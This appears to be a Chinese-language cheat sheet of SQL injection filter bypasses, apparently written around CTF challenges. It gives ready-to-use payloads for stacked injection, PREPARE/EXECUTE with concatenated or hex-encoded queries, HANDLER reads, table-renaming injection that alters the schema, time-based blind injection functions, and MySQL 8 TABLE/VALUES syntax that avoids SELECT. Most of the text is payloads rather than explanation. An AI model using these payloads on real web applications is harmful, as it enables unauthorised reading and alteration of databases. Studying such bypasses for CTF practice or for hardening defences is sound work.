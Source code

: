 # SQL注入常用bypass

## 0x00 堆叠注入

可以在过滤了union的情况下使用，加`；`就可以，类似于命令执行中的绕过一样。

```
 0';show columns from `1919810931114514`;#
```

经典堆叠

### 1.预处理语句

```
PREPARE sqla from '[my sql sequece]';   //预定义SQL语句
EXECUTE sqla;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句
```

例如

```
SET @tn = 'FlagHere';  //存储表名
SET @sql = concat('select * from ', @tn);  //存储SQL语句
PREPARE sql from @sql;   //预定义SQL语句
EXECUTE sql;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句
```

这样我们就可以利用字符串拼接的方法，将select拼接出来，然后利用预执行语句，进行执行，最后完成整个堆叠注入

也可利用`char()`方法将ASCII码转换为SELECT字符串，接着利用concat()方法进行拼接获得查询的SQL语句，最后执行即可。

```
mysql中的prepare：准备一条SQL语句，并分配给这条SQL语句一个名字供之后调用；
EXECUTE ：执行命令
DEALLOCATE PREPARE：释放命令；
 SQL 语句中，我们使用了问号 (?)，在此我们可以将问号替换为整型，字符串，双精度浮点型和布尔值
 set 设置一个预置的sql语句
```

### 2. handler语句代替select

```
handler FlagHere  open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
...
handler yunensec close; #关闭句柄
```

### 3 重命名注入

原理:本身的sql查询时就有一条查询数据库的语句，而我们如果将跨裤查询的别名改成现在的库的名字，然后执行查询语句，就可以直接查询例外一个表的语句了，这里

```
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);#
```

### 4 预编译注入

原理：mysql中支持执行十六进制的语句

```
1';
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;#
```

## 0x02 时间盲注

 sqlite的时间盲注

```
randomblob(num) 生成num个字符来实现盲注
```

mysql的另类时间盲注

```
BENCHMARK(num) 同理
```

sqlite中

```
union seelct ('num') 这样会直接输出num 而不用关注列数是否一致
```

postsql 的 pg_sleep语法。

## 0x03 mysql8的语法(过select)

```
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]]
```

作用是直接列出表的全部内容

```
VALUES row_constructor_list [ORDER BY column_designator] [LIMIT BY number]
row_constructor_list:
ROW(value_list)[, ROW(value_list)][, ...]
value_list:
value[, value][, ...]
column_designator:
column_index
```

![image-20201227195358848](https://i.loli.net/2020/12/27/znQyYg5ZjsodulA.png)

![image-20201227195420459](https://i.loli.net/2020/12/27/nBNeDdm6OjFvItR.png)

两个混合之后，直呼Nice

![image-20201227195447756](https://i.loli.net/2020/12/27/uWZ7sbIDSPcfLqF.png)

**不用select了**

![image-20201227195521175](https://i.loli.net/2020/12/27/n6GtycLuhv8RTjW.png)

然后新的风暴就出现了。